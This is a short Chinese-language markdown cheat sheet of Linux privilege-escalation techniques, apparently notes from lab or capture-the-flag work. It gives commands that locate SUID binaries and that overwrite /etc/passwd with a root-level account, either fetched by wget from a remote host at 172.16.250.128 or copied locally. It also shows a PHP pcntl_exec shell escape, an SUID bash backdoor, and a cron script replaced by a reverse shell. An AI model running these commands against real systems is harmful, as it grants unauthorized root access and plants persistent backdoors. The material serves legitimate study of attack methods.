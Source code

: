 

## suid提权

s 权限的作用：表示对文件具用可执行权限的用户**将使用文件拥有者的权限或文件拥有者所在组的权限**在对文件进行执行。

[linux 文件 s 权限 - _H0f - 博客园 (cnblogs.com)](https://www.cnblogs.com/someone9/p/8551010.html#:~:text=s权限的作用：表示对文件具用可执行权限的用户将使用文件拥有者的权限或文件拥有者所在组的权限在对文件进行执行。 s权限的设置：4，用户拥有者的执行权限位， 6，用户组的执行权限位，,2， 两者都设置， 0， 两者都不设置。)

查找 suid 权限的文件

```bash
find / ‐perm ‐u=s ‐type f 2>/dev/null
```

### wget

远程 `wget` 下载并替换 `/etc/passwd` 

```bash
openssl passwd -1 -salt zf1yolo 123456
$1$zf1yolo$oULk89mtehUjxLPH9cRSn1
zf1yolo:$1$zf1yolo$oULk89mtehUjxLPH9cRSn1:0:0:root:/root:/bin/bash
```

```bash
wget http://172.16.250.128:8001/passwd -O /etc/passwd
su zf1yolo
123456
```

### cp

openssl本地生成账号密码，然后整理到 pass 文件中，然后 cp 覆盖 /etc/passwd

```bash
cp pass /etc/passwd
```

### php

```bash
/usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
```



## 计划任务

- 一个例子：提权命令不行就上脚本 `linpeas` 等，这里是计划任务，以 root 身份运行了一个计划任务 md5check.py，我们需要修改其为反弹 shell，就反弹得到 root 权限。而我们需要 cengover 身份才能修改 md5check.py，在翻阅网站数据库账号敏感信息，提权到mysql，再到数据表里找到了 cengover 账号的密码。
- 在计划任务提权里，编写修改脚本时

  - 可以使用各种语言的反弹shell
  - 可以修改 /etc/passwd
  - 可以 `cp /bin/bash temp/bash_fake` 再添加 s 位 权限，`chmod +s temp/bash_fake`  ，再  `temp/bash_fake -p` 提权
